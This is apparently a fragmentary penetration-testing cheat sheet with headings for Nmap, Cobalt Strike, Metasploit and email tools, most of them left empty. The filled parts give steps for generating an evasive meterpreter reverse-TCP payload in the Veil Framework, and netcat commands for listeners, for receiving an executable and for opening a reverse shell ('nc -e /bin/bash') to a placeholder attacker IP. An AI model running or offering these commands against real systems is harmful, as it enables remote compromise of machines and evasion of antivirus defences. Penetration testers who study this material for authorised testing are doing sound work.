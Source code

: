 ### Nmap Scripting Engine

# Payload Generation
### Cobalt Strike
### MSFvenom
### Veil Framework
start Veil Framework navigate to the /Veil Framwork directory.
```
./Veil.py
```
If you have the ability to select between "Evasion and Ordnance" use Evasion. 
Run the "list" command to show Available Tools.
Use the 'python/meterpreter/rev_tcp.py' option from the list. Example below
```
use 28
```
The check the Required Options. 
```
options
```
Set the lhost ip address. 
Now you can Generate the payload. 



# Listeners
### Cobalt Strike
### Metasploit
### netcat
Set up listening connection on port 4444
```
nc -nlvp 4444
```

Connect to remote machine on port 4444
```
nc -nv 10.0.0.2 4444
```
```
nc -nv "attackerIP" 4444 -e /bin/bash
```

Setup listening connection and redirect incoming input into an exe
```
nc -nlvp 4444 > incoming.exe
```

# Email Client
### Cobalt Strike
### SendEmail
